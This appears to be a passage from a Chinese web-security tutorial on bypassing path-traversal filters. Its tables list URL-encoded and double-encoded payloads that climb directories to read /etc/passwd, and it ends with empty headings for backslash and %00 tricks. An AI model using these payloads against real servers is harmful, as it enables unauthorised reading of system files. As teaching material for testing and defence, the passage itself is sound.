 <table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %2e 代替 .</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(246, 248, 250);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %2f 代替 /</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=..%2f..%2f..%2f..%2f..%2fetc%2fpasswd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %2e%2e%2f 代替 ../</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd</span></section></td></tr></tbody></table>  
常用绕过一般是后两种，点一般不会被过滤，因为文件名中间也会存在一个 **.**  
#### 3、二次编码绕过  
<table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %25%32%65 代替 .</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(246, 248, 250);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %25%32%66 代替 /</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=..%252f..%252f..%252f..%252f..%252fetc%252fpasswd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %25%32%65%25%32%65%25%32%66&lt;br&gt;&lt;br&gt;代替 ../</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd</span></section></td></tr></tbody></table>#### 4、将 / 替换为 \ 绕过  
#### 5、%00绕过  
  